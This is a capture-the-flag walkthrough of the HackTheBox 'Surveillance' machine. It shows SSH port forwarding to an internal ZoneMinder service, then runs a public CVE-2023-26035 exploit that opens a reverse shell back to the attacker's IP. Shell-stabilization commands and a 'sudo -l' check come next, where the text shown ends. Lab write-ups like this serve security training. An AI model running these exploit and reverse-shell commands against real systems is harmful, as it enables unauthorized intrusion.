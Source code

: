 Running the command `netstat -tulnp` you'll find out that there's a port `8080` running internally 

![[Pasted image 20240220022103.png]]

Lets portforward using ssh tunelling

command:`ssh -L 1234:127.0.0.1:8080 matthew@surveillance.htb -fN` 

>`-fN`: These options tell SSH to go into the background (`-f`) and not execute any remote commands (`-N`). This is useful when you only want to establish the SSH tunnel without opening a shell session on the remote server.

![[Pasted image 20240220192404.png]]

Now that we've done that lets navigate to the url `http://127.0.0.1:1234`

![[Pasted image 20240220192639.png]]

We get this `ZoneMinder` login page

What's ZoneMinder??

![[Pasted image 20240220192823.png]]

So it is a free open-source software used for monitoring

Default creds `admin/admin` didn't work hehe. Lets look for public exploits

![[Pasted image 20240220193401.png]]

You can download the exploit we'll be using from [here](https://github.com/rvizx/CVE-2023-26035/blob/main/exploit.py)

To run the exploit

command:`python bankai.py -t http://127.0.0.1:1234/ -ip 10.10.14.165 -p 1337`


![[Pasted image 20240220193308.png]]

Cool. we spawned a reverse shell hehe

To stabilize the shell, use the commands

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```

![[Pasted image 20240220193716.png]]

Now we can try to get root from here

Running  the command `sudo -l`

![[Pasted image 20240220193848.png]]
